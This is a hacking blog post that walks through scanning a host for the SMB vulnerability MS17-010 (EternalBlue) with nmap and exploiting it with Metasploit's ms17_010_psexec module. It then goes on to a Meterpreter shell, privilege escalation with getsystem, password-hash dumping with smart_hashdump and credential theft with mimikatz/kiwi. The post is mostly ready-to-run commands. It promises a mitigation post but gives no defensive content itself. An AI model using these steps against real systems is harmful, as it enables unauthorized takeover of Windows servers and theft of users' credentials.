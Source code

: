```yaml
---
layout: post
title: How to find SMB vulnerabilities with nmap & exploiting ms17-010 
featured-img: WannaCry-ransom
categories: Guides nmap hacking ms17-010 smb1
mathjax: true
---
```


## How to use the Nmap Scripting Engine to test for SMB vulnerabilities: 

Run `nmap --script  vuln -p139,445 192.168.0.18` from your terminal. Change 192.168.0.18 to your target's IP address.

![example command](../assets/nmap/nmap1.jpg)

The result is `Vulnerable` to ms17-010 or CVE-2017-0143 - AKA EternalBlue which was used by the WannaCry ransomware. This exploit allows an attacker to gain full control of a server/computer hosting a share using SMBv1. 


## Exploiting the found vulnerability (ms17-010): 

Open metasploit `msfconsole`
type `search ms17-010`

![](../assets/nmap/msfconsole.jpg)

As you can see, there are a few modules found. 
Let's confirm our nmap finding with the metasploit scanner: 
   
    `use scanner/smb/smb_ms17_010`
    
    `set rhosts 192.168.0.18` - change 192.168.0.18 to your target's IP address. 
    
    `run`
    
![](../assets/nmap/smbms17010.png)
    
We have now confirmed the machine is vulnerable and that it is a Windows Server 2008 R2.  
If we go back to our list of modules, Metasploit has a few exploits available. 

![](../assets/nmap/msfconsole.jpg)

I tried All and `ms17_010_psexec` was the only successful one. The other were not compatible or immediately bluescreened the server. 

![](../assets/nmap/disconnect.png)

To use this exploit, type: 
    
    `use windows/smb/ms17_010_psexec` hit enter
    
    `set LPORT 4445` switch to whatever you want. This is the port where you will be listening for the meterpreter connection. 
    
    `exploit`
    
![](../assets/nmap/shell.png)

We got a shell on the remote system. 

From here you can escalate privileges if necessary: 

    `getuid` - if you are not SYSTEM run `getsystem`

If successful, then you can do `run smart_hashdump` and get all users and their password hashes. Metasploit automatically saves them to /root/.msf4/loot/ where you can crack them later. 

![](../assets/nmap/smart_hashdump.png)

You can also run mimikatz at this point: 

    `use kiwi`
    `creds_all`

![](../assets/nmap/credskiwi.png)

When I tried creds_msv the server crashed. 

![](../assets/nmap/creds_msvcrash.png)

I will be creating another blog post on mitigating this vulnerability and a  memory digital forensics analysis using Volatility for this server.  
















